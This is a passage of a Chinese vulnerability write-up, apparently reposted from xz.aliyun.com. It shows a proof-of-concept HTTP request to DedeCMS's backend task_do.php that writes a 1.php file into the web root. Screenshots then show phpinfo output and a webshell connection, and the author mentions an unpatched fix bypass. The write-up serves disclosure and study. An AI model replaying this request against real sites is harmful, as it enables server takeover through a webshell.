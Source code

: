   
Poc  
  
```
POST /dede/task_do.php HTTP/1.1Host: dede.test.comCache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Language: zh-CN,zh;q=0.9,en;q=0.8Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=a8g7jmunlsc13k921p5i7e5idh; _csrf_name_65a662a9=fe9ab3ba5fb0c17275051ecaf0cd79f3; _csrf_name_65a662a91BH21ANI1AGD297L1FF21LN02BGE1DNG=14d49edb9c9ca536; XDEBUG_SESSION=XDEBUG_ECLIPSE; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=bd2d5486c005cdd5; DedeLoginTime=1722498125; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=82a6253c29408017Accept-Encoding: gzip, deflate, brConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 16dopost=makeindex
```  
  
目前不存在1.php文件  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28P8oaTxaOYsGVmjtk9wXlSKV0F0FibyCO6K82qzONbxB09o4mNuTNqhZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PCic9GotONYL8L3H2O7Jws3ADyYGcDlbBDvghlH1iaqUJTrn9aZTjhBQw/640?wx_fmt=png&from=appmsg "")  
  
  
  
产生1.php文件在网站根目录  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PibFa695gaLrjmCicC3PnVtrkGVr4ibjlwJMROUaia7wHLKnzw9ng6kFianQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
Phpinfo（）  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PUgnJz0XDeEvicRssSeoOAXXB76P6tVc63xbs8QWuKq2elkDx8PUxp2A/640?wx_fmt=png&from=appmsg "")  
  
  
  
Shell连接  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PQthHvoqfsg8BLwKltlsQSFNsicibKne5ZyxuOawPKMLOd09yicyKjFlww/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
# 结语  
  
  
关于makehtml_homepage.php文件中  SetTemplet()方法和SaveToHtml()方法 其实还存在另一个关于修复后的绕过漏洞 但是 和第一个没什么区别 所以在这里就不写了，另外实际利用的话后台其实有很简单的方式可以操作拿shell，就是不知道什么原因官方一直不修复。  
  
  
  
来源:   
https://xz.aliyun.com/news/18233  
  
